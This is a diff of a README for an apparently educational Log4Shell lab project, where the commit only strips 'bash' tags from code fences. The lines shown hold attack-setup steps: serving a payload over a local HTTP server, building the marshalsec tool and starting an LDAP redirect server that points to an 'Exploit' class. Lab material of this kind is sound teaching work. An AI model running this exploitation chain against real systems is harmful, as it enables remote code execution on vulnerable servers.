

Before and after one commit to newmie10/564Capstone, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -144,7 +145,7 @@ ls
 
 Start the HTTP server to serve the payload — keep this terminal open:
 
-```bash
+```
 python3 -m http.server 8888
 ```
 
@@ -154,7 +155,7 @@ python3 -m http.server 8888
 
 Open a new terminal:
 
-```bash
+```
 cd ~/log4j-lab
 git clone https://github.com/mbechler/marshalsec
 cd marshalsec
@@ -163,7 +164,7 @@ mvn clean package -DskipTests
 
 Once the build finishes, start the LDAP redirect server per the marshalsec README:
 
-```bash
+```
 cd ~/log4j-lab/marshalsec
 java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer \
   "http://127.0.0.1:8888/#Exploit"
````
Also changed, not shown: other parts of README.md (+10 -9 lines).
